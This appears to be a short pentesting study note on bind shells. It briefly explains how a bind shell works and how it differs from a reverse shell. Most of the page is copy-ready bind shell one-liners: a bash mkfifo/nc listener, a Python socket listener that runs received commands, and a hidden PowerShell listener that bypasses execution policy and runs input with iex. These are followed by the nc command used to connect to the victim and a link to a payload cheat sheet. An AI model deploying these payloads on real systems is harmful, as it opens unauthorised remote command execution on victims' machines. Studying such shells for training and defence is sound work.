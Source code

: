 ```yaml
---
title: Bind Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - bind shells
---
```


# Bind shells

In a bind-shell the attacking machine initiates a connection to a listener port on the victim's machine. 

**First step** in this attack is initiating the listening connection on port '1234' on the remote host (the victim's), with IP '0.0.0.0' so that we can connect to it from anywhere.


## Bind shell connections

### bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

###  python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

**Second step**:  If we have succeeded in previous step, we have a shell waiting for us on the specified port (1234) in the victim's machine. Now, let's  connect to it from our attacking machine:

```shell-session
 nc 10.10.10.1 1234
 # 10.10.10.1 would be the victim's machine
 # 1234 would be the listening port on victim's machine
 ```

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.



## Some more resources

| Reverse shell | Link to resource |
| ------------- | ---------------- |
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)) |
